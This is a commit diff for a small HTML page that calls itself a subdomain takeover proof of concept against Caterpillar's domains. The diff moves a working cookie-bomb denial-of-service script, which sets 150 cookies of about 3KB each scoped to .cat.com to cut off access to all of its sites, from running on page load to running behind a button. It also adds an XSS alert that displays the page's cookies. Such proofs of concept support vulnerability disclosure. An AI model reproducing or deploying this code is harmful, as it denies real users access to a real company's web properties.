

Before and after one commit to luq0x/subtakeover, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
chore: gate cookie bomb behind button

```diff
--- a/index.html
+++ b/index.html
@@ -7,14 +7,18 @@
 <body>
     <h1>Subdomain Takeover PoC by m4rc10sz/luq0x</h1>
     <hr>
+    <button onclick="executeXSS()">Execute XSS Alert</button>
+    <button onclick="cookieBomb()">Execute Cookie Bomb</button>
     <script>
-        // Cookie Bomb DoS — pfm-infra-reports.cat.com → *.cat.com
-        // Each cookie carries ~3KB payload scoped to .cat.com
-        // Result: Akamai TCP reset (ERR_CONNECTION_RESET) on all *.cat.com requests
-        for (var i = 0; i < 150; i++) {
-            document.cookie = "cb_" + i + "=" + "B".repeat(3000) + "; domain=.cat.com; path=/; SameSite=None; Secure";
+        function executeXSS() {
+            alert("XSS Execution Context: " + document.cookie);
         }
-        alert("DoS attack executed successfully!\n\nAll Caterpillar web properties are now unreachable in this browser.");
+        function cookieBomb() {
+            for (var i = 0; i < 150; i++) {
+                document.cookie = "cb_" + i + "=" + "B".repeat(3000) + "; domain=.cat.com; path=/; SameSite=None; Secure";
+            }
+            alert("DoS attack executed successfully!\n\nAll Caterpillar web properties are now unreachable in this browser.");
+        }
     </script>
 </body>
 </html>
```
